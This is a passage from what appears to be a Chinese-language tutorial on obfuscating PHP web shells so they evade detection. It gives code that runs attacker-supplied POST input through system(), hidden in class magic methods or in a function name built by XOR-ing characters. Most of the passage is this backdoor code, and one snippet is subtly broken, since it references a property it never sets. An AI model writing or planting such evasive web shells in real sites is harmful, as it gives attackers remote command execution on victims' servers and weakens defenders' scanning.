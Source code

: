 ## 7# 类绕过

通过自定义类或者使用已知的类，将恶意代码放入对应的类中进行执行

### 7.1 单类

```plain
class Test
{
    public $_1='';
    function __destruct(){
        system("$this->a");
    }
}
$_2 = new Test;
$_2->$_1 = $_POST['aabyss'];
```

### 7.2 多类

```plain
class Test1
{
    public $b ='';
    function post(){
        return $_POST['aabyss'];
    }
}
class Test2 extends Test1
{
    public $code = null;
    function __construct(){
        $code = parent::post();
        system($code);
    }
}
$fff = new Test2;
$zzz = new Test1;
```

主要还是要用一些魔术方法来进行 ByPass

## 8# 嵌套运算绕过

主要通过各种嵌套、异或以及运算来拼装出来想要的函数，再利用 PHP 允许动态函数执行的特点，拼接处高危函数名，如 `system` ，然后动态执行恶意代码之即可

### 8.1 异或

`^` 为异或运算符，在 PHP 中两个变量进行异或时，会将字符串转换成二进制再进行异或运算，运算完再将结果从二进制转换成了字符串

```plain
$f = ('.'^']').('$'^']').('.'^']').('4'^'@').('8'^']').(']'^'0');   //system 高危函数
$f = ('.$.48]' ^ ']]]@]0');   //等同于这样
$f($_POST['aabyss']);
```
